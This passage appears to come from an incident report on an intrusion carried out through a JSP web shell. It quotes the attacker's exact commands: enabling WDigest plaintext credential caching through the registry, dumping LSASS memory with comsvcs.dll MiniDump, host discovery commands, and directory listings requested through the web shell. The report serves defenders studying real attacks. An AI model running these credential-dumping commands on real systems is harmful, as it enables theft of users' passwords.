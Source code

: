 HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential

WDigest allows for credential caching in LSASS which will result in a users plaintext password being stored in memory. The intended purpose of WDigest credential caching is to facilitate clear text authentication with HTTP and SASL, however, this can be misused by the threat actor to retrieve the plaintext credentials of a user.

Here’s the command executed from the web shell:

powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential


This registry value was not present on the system, which informed the attacker that WDigest was disabled on the beachhead.



Twenty-two seconds later, the threat actor enabled WDigest using the following command, via the web shell:

powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'


# Credential Access
After enabling WDigest, the attacker checked back numerous times over multiple days to see who was signed in. During this period, a privileged user logged onto the system for maintenance work and after which, the threat actor dumped LSASS using comsvcs.dll. The threat actor listed the running processes via the tasklist command and used the PID of LSASS from the output to pass to the credential dumping command.

"C:\windows\System32\rundll32.exe" C:\windows\System32\comsvcs.dll MiniDump  C:\windows\temp\logctl.zip full


The LSASS dump was then exfiltrated out of the environment for offline analysis and rest of the actions were conducted from the account whose password was extracted from the LSASS dump.

# Discovery
The threat actor used the web shell fm2.jsp to conduct their initial discovery on the host. Below are the GET requests sent to the web shell with the discovery commands passed to the cmd parameter, which runs as PowerShell.
- powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
- powershell.exe query session
- powershell.exe systeminfo
- powershell.exe quser
- powershell.exe arp -a
- powershell.exe wmic computersystem get domain
- powershell.exe netstat -an
- powershell.exe ipconfig /all

They also used the web shell to review directories, here’s a few examples
- /custom/login/fm2.jsp?p=C:/Windows/Temp&action=get
- /custom/login/fm2.jsp?p=C:/Windows&action=get
- /custom/login/fm2.jsp?p=C:/&action=get
- /custom/login/fm2.jsp?p=C:/ALLibraries&action=get
- /custom/login/fm2.jsp?p=C:/Users&action=get
- C:/Windows/Temp
- C:/Windows
- C:/
- C:/ALLibraries
- C:/Users

